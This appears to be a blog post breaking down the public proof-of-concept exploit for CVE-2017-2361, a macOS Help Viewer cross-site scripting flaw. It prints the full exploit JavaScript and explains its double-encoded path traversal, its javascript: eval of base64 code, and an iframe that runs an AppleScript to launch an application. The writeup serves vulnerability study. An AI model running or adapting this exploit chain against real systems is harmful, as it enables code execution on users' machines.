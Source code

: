 ```yaml
---
layout: post
title:  "helpviewer xss CVE-2017-2361 breakdown"
date:   2017-03-24 11:18:44 +1100
categories: security
---
```


here is the exploitation taken from CVE-2017-2361. 
{% highlight javascript %}
 function main() {
   function second() {
     var f = document.createElement("iframe");
     f.onload = () => {
         f.contentDocument.location = "x-help-script://com.apple.machelp/"
                                     +"scpt/OpnApp.scpt?:Applications:Calculator.app";
     };
     
     f.src = "help:openbook=com.apple.safari.help";
     
     document.documentElement.appendChild(f);
   }
  
   var url = "javascript%253aeval(atob('" 
               + btoa(second.toString()) 
               + "'));\nsecond();";
 
   document.location = "help:///Applications/Safari.app/Contents/Resources/Safari.help/"
                       +"%25252f..%25252f..%25252f..%25252f..%25252f..%25252f..%25252f/"
                       +"System/Library/PrivateFrameworks/Tourist.framework/Versions/A/"
                       + "Resources/en.lproj/offline.html?redirect=" + url;
 }
  
 main();
{% endhighlight %}

lets break it down

the first variable that is declared is the url. we have
{% highlight javascript %}
var url = "javascript%253aeval(atob('"
{% endhighlight %}

%25 = %

%3A = :

the string javascript%253aeval decodes as follows

javascript%3aeval

javascript:eval

gives us a javascript evaluation for the function atob() which decodes a base 64 string that is encoded first by the next line

{% highlight javascript %}
+ btoa(second.toString())
{% endhighlight %}

this is going to give us our second function that is encoded. with the decoding removed so far our url variable looks like this

{% highlight javascript %}
javascript:eval('function second() {
     var f = document.createElement("iframe");
     f.onload = () => {
         f.contentDocument.location = "x-help-script://com.apple.machelp/"
                                     +"scpt/OpnApp.scpt?:Applications:Calculator.app";
     };
     
     f.src = "help:openbook=com.apple.safari.help";
     
     document.documentElement.appendChild(f);
   }'); 
   second();
{% endhighlight %}

next we redirect the browser with document.location, lets take a look at the url we give to the browser

{% highlight javascript %}
"help:///Applications/Safari.app/Contents/Resources/Safari.help/"
 +"%25252f..%25252f..%25252f..%25252f..%25252f..%25252f..%25252f/"
 +"System/Library/PrivateFrameworks/Tourist.framework/Versions/A/"
 + "Resources/en.lproj/offline.html?redirect=" + url;
{% endhighlight %}

we open the help viewer with help:///Applications/Safari.app/Contents/Resources/Safari.help/ and then traverse up the directories using %25252f.. as 2f decodes to / giving us. this double encoded / bypasses the helpviewer check to see if the directory is valid 

{% highlight javascript %}
"help:///Applications/Safari.app/Contents/Resources/Safari.help//../../../../../..//System/Library/PrivateFrameworks/Tourist.framework/Versions/A/Resources/en.lproj/offline.html?redirect=" + url;
{% endhighlight %}

this url opens an offline page from Tourist.framework through helpviewer and then redirects to our url variable, this runs the javascript eval in the helpviewer application

{% highlight javascript %}
function second() {
    var f = document.createElement("iframe");
    f.onload = () => {
        f.contentDocument.location = "x-help-script://com.apple.machelp/"
                                    +"scpt/OpnApp.scpt?:Applications:Calculator.app";
    };
    
    f.src = "help:openbook=com.apple.safari.help";
    
    document.documentElement.appendChild(f);
  }
{% endhighlight %}

this creates an iframe in the helpviewer and uses it to run the OpnApp.scpt to execute some application

